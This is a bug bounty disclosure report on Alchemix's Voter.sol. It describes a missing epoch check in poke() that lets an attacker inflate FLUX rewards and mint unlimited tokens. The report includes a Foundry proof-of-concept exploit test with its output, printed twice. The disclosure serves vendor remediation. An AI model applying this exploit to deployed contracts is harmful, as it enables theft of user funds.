 
# Unauthorized minting of unlimited FLUX in 1 transaction

Submitted on Thu May 02 2024 10:22:35 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30634

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The absence of the `onlyNewEpoch(_tokenId)` modifier in the `poke(uint256 _tokenId)` function of the `Voter.sol` smart contract allows anyone to call `poke(uint256 _tokenId)` multiple times within the same transaction, inflating his accrued FLUX balance.

Finally, the malicious actor calls `FLUX.claimFlux(_tokenId, _amount)` to mint unlimited tokens.

Link to asset: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol?#L195

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry test:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```

## Vulnerability Details
The internal `_vote(...)` function in the `Vote.sol` contract accrues rewards.

One of the public functions that trigger the accrual inside `_vote(...)` is `poke(...)`, which is missing the `onlyNewEpoch(_tokenId)` modifier that ensures rewards are only accrued once per epoch.

Without this modifier, an attacker can repeatedly call the `poke(...)` function within the same transaction inflating their unclaimed FLUX balance and finally mint the tokens by calling `flux.claimFlux(tokenId, unclaimedFlux)`.

## Impact Details

Minting unlimited FLUX tokens has several (quite evident) impacts. Here's some of them:

1- FLUX is an ERC20, minting unlimited FLUX leads to draining all liquidity in all AMMs where this token is deployed.

2- FLUX is used to **boost a veToken holder's voting power** and **exit a ve-position early**, so minting unlimited FLUX will completely destabilize Alchemix's ecosystem.
        
## Proof of concept
## Proof of Concept

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry tests:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```